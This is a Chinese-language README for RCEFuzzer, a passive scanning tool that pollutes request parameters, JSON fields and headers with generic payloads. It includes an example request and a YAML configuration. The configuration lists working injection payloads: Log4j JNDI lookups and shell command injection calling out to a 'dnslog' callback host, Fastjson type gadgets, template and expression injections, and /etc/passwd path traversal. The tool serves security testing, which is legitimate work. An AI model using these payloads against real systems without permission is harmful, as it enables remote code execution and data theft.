 # RCEFuzzer


## 下载使用

[https://github.com/TheKingOfDuck/RCEFuzzer/releases/tag/0.5](https://github.com/TheKingOfDuck/RCEFuzzer/releases/tag/0.5)

## 基本介绍

这是一个以fuzz为中心思想的被动扫描工具，多数扫描器的工作逻辑是以已知漏洞去冲目标，然后根据条件判断是否存在这个已知的漏洞；rcefuzzer的工作逻辑是以通用payload去污染目标的参数，然后根据条件判断是否存在未知漏洞。

举个例子，假设被动收集到的流量是

https://www.baidu.com
```
POST /sys/customer/list HTTP/1.1
Host: www.baidu.com
Content-Length: 23
Content-Type: application/json;charset=UTF-8

{"key1":"value1","key2":"eyJpbm5lcmtleTEiOiJpbm5lcnZhbHVlMSJ9","id":1,"isLogin":false,"key3":{"innerkey2":"{\"k3\":\"v3\"}"}}
```
如果配置了三条通用的payload:
```
${jndi:ldap://dnslog/log4j}
`whoami`.dnslog
{"@type":"java.net.Inet4Address","val":"dnslog"}
```

那么rcefuzzer的参数污染模块将对目标发起以下请求：

* 污染key1的值然后分别发包
* 通用污染key1的值然后分别发包
* 尝试自动解码，并污染子JSON的innerkey1的值3次然后分别发包
* 污染key3的值然后分别发包。
* 污染子JSONinnerkey2的值，然后分别发包。
* 尝试解析innerkey2，并污染子JSON的k3的值然后分别发包

理论上总的请求量是3*6=18次。这仅是参数污染模块，如果带上其他模块，那请求量可能是50。如果payload写得多点，原流量大一点，那么可能是5000次。

## 配置说明

```

###
#
# 配置说明:
#    1.tweb的配置是必须要改的, 不改显示不了漏洞
#    2.白名单的优先级是高于黑名单的
#    3.所有配置都是可以动态改的, 不用重新加载插件
# 使用说明:
#    https://www.wolai.com/gS5UWgMmHG4ynJQgzL3AYk
###
config:
  version: |  # 插件版本
    0.5
  twebdomain: | # tweb 子域名配置
    xxx.xx.com
  twebapi: |  # tweb api配置 其中KEY为展位符,在新旧版本的tweb均可在Profile页面找到
    https://admin.xxxx.com/logs?token=xxxxxx&type=dns&q=KEY
  timeout: |  # 扫描过程中的超时配置 非tweb请求超时设置 单位毫秒 60000为60秒
    60000
  hostBlacklistReg: |  # 禁止扫描的域名列表
    (.+?)(gov\.cn|edu\.cn|tweb|google|gstatic)(.+?)
  extBlacklist: |  # 禁止扫描的后缀列表,这不是正则，本来想从passive-scan-client中抄代码的,结果发现他有bug...
    .js|.css|.jpeg|.gif|.jpg|.png|.pdf|.rar|.zip|.docx|.doc|.ico

jsonPollution:
  status:  #on为开启 off为关闭
    on
  allin: | #替换整个json数据包
    {"@type":"java.net.Inet4Address","val":"dnslog"}
  value: | #仅污染json的键值 为了python eval那种情况考虑 不加双引号包裹的话污染结果类似{"test":__import__('os')} {"test":"{\"dtaa\":__import__('os')}"}
    "${jndi:ldap://dnslog/jsonkey}"
    __import__('socket').gethostbyaddr('dnslog')

paramPollution:
  status: #on为开启 off为关闭
    on
  exprs: | #为了兼容有回显的表达式注入/代码执行漏洞
    {{9527*2333}}|22226491
    ${T(java.lang.System).getenv()}|JAVA_HOME
    ${T+++++++(java.lang.System).getenv()}|JAVA_HOME
    {php}var_dump(md5(9527));{/php}|52569c045dc348f12dfc4c85000ad832
    {if+var_dump(md5(9527))}{/if}|52569c045dc348f12dfc4c85000ad832
    ../../../../../../../../../../../../../../../etc/passwd|root
  value: |
    dnslog
    ${jndi:ldap://paramPollution.dnslog/log4j}
    `whoami`.dnslog
    http://dnslog/
    ping+-nc+1+dnslog

headerPollution:
  status: #on为开启 off为关闭
    on
  allin: | #一次性污染除了url和host外的所有请求头
    ${jndi:dns://dnslog/456}
    ${jndi:ldap://dnslog/789}
  headers: | #添加的请求头如果原数据包有则追加原值污染 无则添加后再发包 竖线|为key和value的分隔符号。
    X-Forwarded-For|${jndi:dns://dnslog/456}
    X-Api-Version|${jndi:dns://dnslog/456}

ssrfPollution:
  status: #on为开启 off为关闭
    on

responseMatch:
  status: #on为开启 off为关闭
    off
  expr: | #添加的请求头如果原数据包有则覆盖原值污染 无则添加后再发包
    thinkphp:error


```
